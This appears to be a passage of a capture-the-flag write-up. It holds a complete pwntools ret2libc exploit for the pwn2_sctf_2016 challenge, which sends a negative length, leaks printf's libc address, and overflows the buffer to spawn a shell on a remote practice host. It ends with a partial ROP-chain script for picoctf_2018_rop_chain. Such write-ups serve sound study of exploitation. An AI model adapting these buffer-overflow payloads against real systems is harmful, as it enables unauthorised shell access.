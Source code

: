 ### exp
```python
from pwn import *
from LibcSearcher import *

#context.log_level = 'debug'

p = remote("node5.buuoj.cn",29615)
#p = process("./pwn2_sctf_2016")
elf = ELF("./pwn2_sctf_2016")

printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
main = 0x080485B8
call_printf = 0x080485B0
format_s = 0x08048702

p.recvuntil(b'read? ')
p.sendline(b'-1')

payload = b'A'*47 + b'B' + p32(printf_plt) + p32(main) + p32(format_s) + p32(printf_got)
p.sendline(payload)
p.recvuntil(b'B')
printf_addr = u32(p.recv()[17:21])
print(hex(printf_addr))

libc = LibcSearcher("printf",printf_addr)

printf_offset = libc.dump('printf')
system_offset = libc.dump('system')
binsh_offset = libc.dump('str_bin_sh')
libc_base = printf_addr - printf_offset
system_addr = libc_base + system_offset
binsh = libc_base + binsh_offset

p.sendline(b'-1')
payload = b'A'*48 + p32(system_addr) + p32(main) + p32(binsh)
p.sendline(payload)

p.interactive()
```

## picoctf_2018_rop_chain
### 思路
达成几个条件即可获取flag

### exp
```python
from pwn import *

#p = process('./PicoCTF_2018_rop_chain')
p = remote("node5.buuoj.cn",29755)

elf = ELF('./PicoCTF_2018_rop_chain')
gets_plt = elf.plt['gets']

win1 = 0x0804A041
win2 = 0x0804A042
flag = 0x0804862B
a1 = 0xDEADBAAD
main = 0x0804873B

```